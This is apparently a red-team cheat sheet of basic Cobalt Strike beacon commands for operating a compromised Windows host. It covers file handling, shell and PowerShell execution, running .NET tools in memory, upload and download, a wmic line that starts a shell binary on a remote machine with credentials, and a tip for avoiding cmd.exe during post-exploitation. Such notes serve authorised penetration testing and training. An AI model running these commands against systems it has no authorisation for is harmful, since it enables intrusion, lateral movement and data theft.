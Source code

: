 # 04 - Basic Commands

Search Tag(s): #command-and-control #post-exploitation #cobalt-strike

## 4.1 - Navigation

Change directories.

```
beacon> cd <drive_letter>:\path\to\directory
```

## 4.2 - File Manipulation

Create directory.

```
beacon> mkdir C:\path\to\new_directory\
```

Copy file.

```
beacon> cp C:\path\to\file.txt C:\path\to\copied_file.txt
```

Move file.

```
beacon> mv C:\path\to\file.txt C:\path\to\moved_file.txt
```

Delete file.

```
beacon> rm C:\path\to\file.txt
```

## 4.3 - Sleep and Jitter

Set the sleep time for executing beacon commands with delay. If `sleep` is `0` it becomes interactive mode.

```
beacon> sleep <seconds> <jitter>

beacon> sleep 15 30
```

## 4.4 - List files or directories

```
beacon> ls
```

## 4.5 - Execute Shell Commands

Execute any `shell` command that the beacon spawns a process `cmd.exe`.

```
beacon> shell <command> [arguments]

beacon> shell dir /s /b c:\ | findstr "explorer.exe"
```

Spawns a `cmd.exe` process but doesn't print the output

```
beacon> execute <command> [arguments]
```

Execute commands without spawning `cmd.exe` except the running process comes from the `conhost.exe`. This is highly recommended when you perform post exploitation activities.

```
beacon> run <command> [args]

beacon> run arp -a

beacon> run wmic.exe /node:<IP> [/user:<username> /password:<password>] win32_process call create "C:\path\to\shell.exe"
```

Spawns a child process of `powershell.exe`.

```
beacon> powershell <cmdlet> [args]
```

Executes unmanaged powershell command. Make sure to change the process when using the `spawnto` command.

```
beacon> powerpick <cmdlet> [args]
```

## 4.6 - Execute Program

Run .NET binary through a temporary process when running `spawnto` beacon command otherwise it defaults back to `rundll32.dll`

```
beacon> execute-assembly /path/to/compiled_dotnet_tool.exe [arguments]
```

## 4.7 - Upload and Download Files

Upload file

```
beacon> upload /path/to/local/file.txt C:\path\to\remote\file.txt
```

Download file

```
beacon> download C:\path\to\file.txt
```

Check file downloads

```
beacon> downloads
```

Cancel file download(s)

```
beacon> cancel <file | *>
```

## 4.6 - Jobs Queue

Queue jobs

```
beacon> jobs
```

Kill job ID

```
beacon> jobkill <jid>
```